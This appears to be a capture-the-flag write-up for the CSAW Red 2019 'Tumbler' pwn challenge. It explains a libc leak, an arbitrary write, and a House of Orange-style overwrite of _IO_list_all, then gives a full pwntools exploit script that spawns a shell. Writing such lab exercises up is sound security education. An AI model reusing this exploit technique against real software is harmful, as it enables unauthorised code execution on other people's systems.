 ```yaml
---
title: CSAW Red 19 Tumbler
---
```


I was one of the two teams that solved Tumbler from [CSAW Red](https://red.csaw.io). 

#### Problem
*Pwn 500*

No way that cryptocurrency is a scam, that would NEVER happen

`nc pwn.chal.csaw.io 1000`

#### Analysis
The libc provided was 2.23.
```bash
$ strings libc.so.6 | grep GNU
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu10) stable release version 2.23, by Roland McGrath et al.
Compiled by GNU CC version 5.4.0 20160609.
        GNU Libidn by Simon Josefsson
```

Decompiling the binary, it is immediately apparent that we have an arbitrary write primitive in one of the later functions called.

```c
void arb_write(void)

{
  void *__buf;

  puts("Which coin do you want to edit?");
  __buf = (void *)get_number();
  puts("What are you writing?");
  read(0,__buf,0x100);
  return;
}
```

<!--more-->

Furthermore, due to the use of malloc instead of calloc, we can leak a libc address by setting an address to an unsorted bin sized chunk, and then freeing it. 

```python
p.recvuntil("Please enter your address")
p.sendline("A" * 0x80)
p.recvuntil("Is your address correct? This is important. y/n")
p.sendline("n")
p.sendline("A" * 7)
```

Note that the `"A" * 7` is taken from the unsorted bin chunk created from freeing `"A" * 0x80`. Thus, we can get a libc leak by carefully overwriting only the first 8 bytes (the remaining 8 bytes contains a back pointer to libc).

#### Solution

Now that we have a libc leak and arbitrary write, we need a way to redirect code execution. Nothing interesting really happens after our arbitrary write primitive.

```c
  ...
  arb_write();
  puts("Your coins are now ours.\nDon\'t forget your keys, or that\'s where they\'ll stay.");
  return 0;
}
```

Unfortunately, both PIE and Full RELRO are enabled, making a GOT overwrite impossible.

```bash
$ checksec -f tumbler
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   90 Symbols     Yes      0               10      tumbler
```

As always, it's useful to take a look at the glibc source code. The code for `__libc_start_main` can be found in `./csu/libc-start.c`. 

```c
#else
  /* Nothing fancy, just call the function.  */
  result = main (argc, argv, __environ MAIN_AUXVEC_PARAM);
#endif

  exit (result);
```

It appears nothing fancy happens - only exit gets called. Well what happens when exit gets called? `exit` is defined in `./stdlib/exit.c`. There are a lot of function pointers, but unfortunately all of them are in a read only section of libc memory. Interestingly enough, there is an additional hook at the end.

```c
  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());
```

A simple inspection in GDB reveals `__libc_atexit` points to `_IO_cleanup`, which is found in `./libio/genops.c`. 

```c
int
_IO_cleanup (void)
{
  int result = _IO_flush_all_lockp (0);

  _IO_unbuffer_all ();

  return result;
}
```

Wait a minute... The `_IO_flush_all_lockp` function sounds familiar. It's the same function used in House of Orange (see this [tutorial](https://1ce0ear.github.io/2017/11/26/study-house-of-orange/) for more info). 

In fact, our exploit is even simpler than the standard House of Orange because we don't need to rely on an unsorted bin attack to overwrite the `_IO_list_all` pointer, we can overwrite it directly with our arbitrary write. With a bit of clever compression overlapping the vtable with the file struct, our payload easily fits under the 0x100 size limit.

My final exploit is as follows.

```python
from pwn import *

e = ELF("./tumbler")
libc = ELF("./libc.so.6")

context.binary = e.path

if "--remote" in sys.argv:
  p = remote("pwn.chal.csaw.io", 1000)
else:
  p = process(e.path
  )
  #{"LD_PRELOAD": libc.path})

p.recvuntil("enter")
p.sendline("A")
p.recvuntil("enter")
p.sendline("A" * 0x80)
p.recvuntil("y/n")
p.sendline("n")
p.sendline("A" * 7)
p.recvuntil("y/n")
p.sendline("y")

p.recvuntil("Address:")
p.recvline()

leak = u64(p.recvline(keepends=False)[:6] + "\x00\x00") - 0x7f18390bebf8 + 0x00007f1838cfa000
print("{:#x}".format(leak))


p.recvuntil("?")
p.send(str(leak + libc.symbols["_IO_list_all"]))
p.recvuntil("?")

p.sendline(
  p64(leak + libc.symbols["_IO_list_all"] + 8)
+ ("/bin/sh\x00" + p64(leak + libc.symbols["system"]) + p64(0) * 3 + p64(0x1001)).ljust(0xc0, "\x00")
+ "\x00" * 8 * 3
+ p64(leak + libc.symbols["_IO_list_all"] + 0x10 - 0x18)
)

p.interactive()
```
